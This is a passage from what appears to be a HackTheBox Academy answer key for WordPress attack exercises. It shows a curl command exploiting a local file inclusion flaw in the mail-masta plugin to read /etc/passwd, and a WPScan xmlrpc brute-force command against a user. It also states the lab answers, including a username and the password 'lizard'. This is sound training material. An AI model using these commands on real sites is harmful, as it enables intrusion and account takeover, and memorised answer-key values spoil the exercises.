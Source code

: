 ```

<SNIP>
```

Answer: `1.5.34`

# Exploiting a Vulnerable Plugin

## Question 1

### "Use the same LFI vulnerability against your target and read the contents of the "/etc/passwd" file. Locate the only non-root user on the system with a login shell."

After spawning the target machine, students need to exploit the LFI vulnerability, using `cURL` and `grep` to filter out the answer; the only non-root user on the system with a login shell is `sally.jones`:

Code: shell

```shell
curl -s http://STMIP:STMPO/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/etc/passwd | grep "bash"
```

```
┌─[us-academy-1]─[10.10.14.135]─[htb-ac413848@pwnbox-base]─[~]
└──╼ [★]$ curl -s http://138.68.185.195:30821/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/etc/passwd | grep "bash"

sally.jones:x:1001:1001:Linux User,,,:/home/sally.jones:/bin/bash
```

Answer: `sally.jones`

# Attacking WordPress Users

## Question 1

### "Perform a bruteforce attack against the user "roger" on your target with the wordlist "rockyou.txt". Submit the user's password as the answer."

After spawning the target machine, students need to perform a bruteforce attack using `WPscan` with either the `wp-login` method or `xmlrpc`, however, since the `xmlrpc` method is allowed, it is preferred over `wp-login`. Students will find out that the password for the `roger` user is `lizard`:

Code: shell

```shell
wpscan --password-attack xmlrpc -t 40 -U roger -P /usr/share/wordlists/rockyou.txt --url http://STMIP:STMPO
```
